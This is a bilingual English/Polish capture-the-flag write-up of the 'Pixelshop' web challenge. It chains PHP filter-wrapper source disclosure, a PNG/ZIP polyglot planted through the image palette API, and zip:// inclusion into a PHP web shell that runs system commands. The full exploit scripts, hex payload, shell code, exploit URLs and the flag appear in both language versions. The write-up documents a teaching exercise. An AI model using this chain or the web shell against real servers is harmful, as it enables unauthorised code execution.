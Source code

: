 ## Pixelshop (Web, 300 points, 15 solves)

	Everyone loves pixel art, and thanks to PixelShop you can now create pixel art from your browser! Exciting!

###ENG
[PL](#pl-version)

We get access to a webpage where we can upload icons (max 32x32) or even draw an icon with built-in editor.
Those icons are then placed in /uploads directory with random name as png files.
First thing we notice is the navigation on the page handled by a GET parameter `op`, eg `http://pixelshop.pwning.xxx/?op=upload`
We try to put some other values there and we determine that it's a file inclusion for `.php` files.
We use php filter-wrapper `php://filter/read=convert.base64-encode/resource=` to force base64 encoding of the included pages eg:

`http://pixelshop.pwning.xxx/?op=php://filter/read=convert.base64-encode/resource=index`

This way we extract all source files (see [src](src) directory).
Sources analysis brings us to conclusion that:

- The page only includes `.php` files because the extension is always added, and it's a new PHP so no null-byte poisoning
- Any uploaded image will always have `.png` extension
- We can only upload a proper image to the webpage
- The image is stripped from metadata so no way to smuggle something in exif
- We can manually set palette and image pixels using the built-in image edit feature of the webpage.

The first issue we had to overcome was the ability to include a file of our choosing.
It took us a while to figure out the approach but then we come up with an idea that if wrappers helped us once, they might help again.
There is a `zip://` wrapper which enables unzipping archives on the fly and provides access to the stored files.
This means that it's possible to run: `zip://path_to_zip#file_name` as `include()` argument and this way you can include the file from zip.
This means that if we could upload a zip archive with a php file inside to the webpage, we could then include it via:

`http://pixelshop.pwning.xxx/?op=zip://uploads/our_zip%23file_inside`

And this would unpack the archive and include `file_inside.php` file to the page.
This fixes the problem with file extension since we can control extension of the file inside zip.
But there is still problem with how to upload a zip file when we can only upload a valid image file.
It turns out a proper png file can be also a proper zip file!
And the `zip://` does not take extension into consideration so it can unzip a `.png` file just as well, as long as it's a zip file.

We couldn't simply upload our rigged png file since it would be processed by the page, but we could edit it afterwards.
The edit feature provides API to set palette and pixels using JSON. 
Palette is very interesting because it is stored in consecutive bytes inside the PNG file.
Palette needs to come as triplets (for RGB) so we prepare a function to convert given binary payload into palette bytes string:

```python
def form_payload(payload):
    b = ["{:02x}".format(ord(c)) for c in binascii.unhexlify(payload)]
    for i in range(3-(len(b) % 3)): # padding
        b.append("00")
    data = []
    for i in range(0, len(b), 3):
        data.append('"#%s%s%s"' % (b[i], b[i + 1], b[i + 2]))
    return ",".join(data)
```

And we prepare a script to edit selected uploaded png file on the webpage and to set our payload as palette bytes:

```python
def edit_file(imagekey, palette_payload):
    base_url = "http://pixelshop.pwning.xxx/"
    url = base_url + "?op=save"
    img = ",".join(['0' for i in range(32 * 32)])
    payload = form_payload(palette_payload)
    jsonData = """
     {
       "pal": [%s],
       "im":[%s]
     }
    """ % (payload, img)
    data = {"imagekey": imagekey, "savedata": jsonData}
    result = requests.post(url, data=data)
    print(result.content)
    image_url = base_url + "uploads/" + imagekey + ".png"
    png = requests.get(image_url)
    print(" ".join("{:02x}".format(ord(c)) for c in png.content))
```

We execute this with our crafted zip payload:

`payload_raw = "504B0304140000000800EE769148F0D042901D0000002100000005000000732E706870B3B12FC82850508977770D89564F548FD5803293D46335ADEDED78B900504B01021400140000000800EE769148F0D042901D00000021000000050000000000000001002000000029000000732E706870504B0506000000000100010033000000690000000000"`

And we get an image file uploaded on the server:

![](exploit.png) 

Which can be also unzipped, and inside stores `s.php` file with a simple PHP shell inside

```php
<?php $_GET['a']($_GET['b']); ?>
```

With this file safely uploaded in the server as `847cf5ebb78615e61ab646189e3ffbff138801ad.png` we can finally run:

`http://pixelshop.pwning.xxx/?a=system&b=ls&op=zip://uploads/847cf5ebb78615e61ab646189e3ffbff138801ad.png%23s`

Which runs `system('ls /')`.

![](ls.png)

![](cat.png)

And we finally get the flag:

`PCTF{P1x3Ls_ar3_nIc3_but_Sh311_15_sw33ter_b271ea7f} `

###PL version

Dostajemy dostęp do strony pozwalającej na uploadowanie ikonek (max 32x32) oraz na rysowanie/edytowanie ikonek przez wbudowany edytor.
Ikonki są następnie zapisywane w katalogu /uploads z losową nazwą jako pliki png.
Pierwsza rzecz którą zauważyliśmy to fakt, że nawigacja strony odbywa się za pomocą parametru GET `op`, np. `http://pixelshop.pwning.xxx/?op=upload`
Próba umieszczania tam różnych wartości pozwala stwierdzić że ten parametr jest używany jako argument dla include plików `.php`
Wykorzystaliśmy więc filtr-wrapper php `php://filter/read=convert.base64-encode/resource=` żeby wymusić konwersje pliku do base64 przed includowaniem:

`http://pixelshop.pwning.xxx/?op=php://filter/read=convert.base64-encode/resource=index`

We ten sposób uzyskujemy źródła wszystkich plików (patrz katalog [src](src)).
Analiza źródeł pozwala stwierdzić że:

- Strona includuje tylko pliki `.php` ponieważ rozszerzenie jest zawsze doklejane, a jest to nowa wersja PHP niepodatna na null-byte poisoning
- Każdy uploadowany plik będzie miał rozszerzenie `.png`
- Możemy uploadować tylko poprawne obrazki
- Obrazek jest czyszczony z metadanych więc nie ma możliwości przmycić czegoś w exif
- Możemy ręcznie ustawić palete oraz piksele obrazu przez wbudowaną w stronę funkcje edycji ikonek

Pierwszy problem który musieliśmy pokonać to includowanie wybranego przez nas pliku.
Chwile zajęło nam dojście do rozwiązania, ale wreszcie pomyśleliśmy że skoro wrappery pomogły raz to mogą i drugi.
PHP udostępnia wrapper `zip://` który pozwala w locie odpakować archiwum i uzyskać dostęp do jego zawartości.
To oznacza że można wykonać `zip://path_to_zip#file_name` jako parametr `include()` i tym samym includować plik z wnętrza zipa.
To oznacza że gdybyśmy mogli uploadować archiwum zip z plikiem php w środku, to moglibyśmy includować ten plik przez:

`http://pixelshop.pwning.xxx/?op=zip://uploads/our_zip%23file_inside`

I to pozwoliłoby odpakować archiwum i includować plik `file_inside.php` na stronę.
To rozwiązuje problem z rozszerzeniem pliku, ponieważ kontroluejmy rozszerzenie pliku wewnąrz zipa.
Nadal pozostaje jednak problem uploadowania archiwum zip podczas gdy strona pozwala umieszczać tylko poprawne obrazki.
Okazuje się jednak że poprawny plik png może jednocześnie być poprawnym archiwum zip!
A wrapper `zip://` nie bierze pod uwagę rozszerzenia piku więc może odpakować plik `.png` o ile jest to poprawne archiwum.

Nie mogliśmy po prostu uploadować przygotowanego pliku png ponieważ zostałby przez stronę przetworzony, ale mogliśmy do edytować.
Funkcja edycji udostępniała API do ustawiania palety oraz pixeli przez JSONa.
Paleta jest wyjątkowo interesująca bo jest składowana jako kolejne bajty w pliku PNG.
Paleta była przyjmowana jako trójki (RGB) więc przygotowaliśmy funkcje konwertujacą podany payload na palete:

```python
def form_payload(payload):
    b = ["{:02x}".format(ord(c)) for c in binascii.unhexlify(payload)]
    for i in range(3-(len(b) % 3)): # padding
        b.append("00")
    data = []
    for i in range(0, len(b), 3):
        data.append('"#%s%s%s"' % (b[i], b[i + 1], b[i + 2]))
    return ",".join(data)
```

A następnie przygotowaliśmy skrypt edytowal plik png na stronie i ustawiał jako palete wybrane przez nas bajty:

```python
def edit_file(imagekey, palette_payload):
    base_url = "http://pixelshop.pwning.xxx/"
    url = base_url + "?op=save"
    img = ",".join(['0' for i in range(32 * 32)])
    payload = form_payload(palette_payload)
    jsonData = """
     {
       "pal": [%s],
       "im":[%s]
     }
    """ % (payload, img)
    data = {"imagekey": imagekey, "savedata": jsonData}
    result = requests.post(url, data=data)
    print(result.content)
    image_url = base_url + "uploads/" + imagekey + ".png"
    png = requests.get(image_url)
    print(" ".join("{:02x}".format(ord(c)) for c in png.content))
```

Wykonujemy ten skrypt z przygotowanym payloadem zip:

`payload_raw = "504B0304140000000800EE769148F0D042901D0000002100000005000000732E706870B3B12FC82850508977770D89564F548FD5803293D46335ADEDED78B900504B01021400140000000800EE769148F0D042901D00000021000000050000000000000001002000000029000000732E706870504B0506000000000100010033000000690000000000"`

I dostajemy na serwerze plik:

![](exploit.png) 

Który może zostać odpakowany a w środku zawiera plik `s.php` z prostym php shellem:

```php
<?php $_GET['a']($_GET['b']); ?>
```

Z tym plikiem bezpiecznie leżącym na serwerze jako `847cf5ebb78615e61ab646189e3ffbff138801ad.png` możemy wreszcie uruchomić:

`http://pixelshop.pwning.xxx/?a=system&b=ls&op=zip://uploads/847cf5ebb78615e61ab646189e3ffbff138801ad.png%23s`

Co daje nam przykładowo `system('ls /')`.

![](ls.png)

![](cat.png)

I finalnie dostajemy flagę:

`PCTF{P1x3Ls_ar3_nIc3_but_Sh311_15_sw33ter_b271ea7f} `
